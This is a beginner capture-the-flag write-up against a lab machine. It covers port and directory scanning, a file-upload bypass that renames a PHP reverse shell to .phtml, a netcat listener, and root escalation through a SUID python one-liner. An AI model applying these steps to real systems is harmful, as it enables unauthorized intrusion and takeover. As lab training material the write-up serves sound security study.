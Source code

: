 *A ctf for beginners, can you root me?*

**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
This can be found from the nmap scan. Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
Refer to nmap scan to answer this question.
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.

![](images/rootme-panel-directory.png)

I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.

![](images/rootme-jpeg-upload.png)
## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.

![](images/rootme-rev-shell-local.png)

If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.

![](images/rootme-upload-php-shell.png)
![](images/rootme-php-restriction.png)

We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.

![](images/rootme-upload-phtml-shell.png)

![](images/rootme-successful-upload.png)

Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.

![](images/rootme-phtml-upload.png)

Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 

![](images/rootme-www-data-priv.png)

After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.

![](images/rootme-user-flag.png)
## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null

![](images/rootme-suid-perm.png)

Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/rootme-escalate.png)
#### root.txt
We can now access the root directory and find the root flag!

![](images/rootme-root-flag.png)